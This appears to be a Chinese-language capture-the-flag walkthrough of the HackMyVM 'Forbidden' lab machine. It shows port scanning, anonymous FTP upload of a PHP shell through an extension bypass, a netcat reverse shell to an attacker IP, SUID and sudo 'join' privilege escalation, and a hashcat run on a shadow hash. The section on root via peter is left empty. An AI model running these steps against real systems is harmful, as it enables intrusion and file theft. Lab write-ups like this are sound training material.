

# Forbidden

`fscan`扫描

```bash
$ fscan -h 192.168.1.32
192.168.1.32:80 open
192.168.1.32:21 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://192.168.1.32       code:200 len:241    title:None
[+] ftp 192.168.1.32:21:anonymous
   [->]www
```

## FTP匿名登录上传shell

发现开放`21`、`80`端口，并且有`ftp`匿名登录，登录查看`www`目录


`note.txt`有个提示

```
The extra-secured .jpg file contains my password but nobody can obtain it.
```

但是这个照片没有，尝试上传`php`文件，后缀绕过过滤

```
Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml
```

发现`php5`可以被解析


## ELF提权

先反弹`shell`再提权，上传`nc`到`/tmp`目录给执行权限执行

```bash
./nc 192.168.1.94 9999 -e /usr/bin/bash
```

获得`shell`后找`suid`权限

```
find / -perm -4000 2>/dev/null
```

发现了`/home/marta/.forbidden`


在`marta`的家目录有个获得`1001`用户权限的代码，以及已经编译好的程序，直接执行可以获得`markos`的权限


`user.txt`内容

```
HMVpussycat
```

因为之前有提示密码在`jpg`文件里，查找一下

```
find / -name *.jpg -type f 2>/dev/null
```

找到了`TOPSECRETIMAGE.jpg`



各种`010editor` `stegsolve`都没找到隐藏信息，密码应该就是`TOPSECRETIMAGE`

使用该密码登录`marta`

```bash
$ su marta
Password:TOPSECRETIMAGE
```

然后`sudo -l`发现


## join提权

`join`读取`root`下面的`root.txt`

```
sudo -u root /usr/bin/join -a 2 /dev/null /root/root.txt
```


```
HMVmymymymymind
```

或者直接`hashcat`破解`peter`的密码

```
hashcat '$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81' ~/Desktop/secs/tools/dict/rockyou.txt
```


## peter提权root


造成`php5`后缀可以被解析的原因是

`/etc/nginx/sites-available/default` 中配置了

```nginx
location ~ \.php5$ {
		include snippets/fastcgi-php.conf;
```


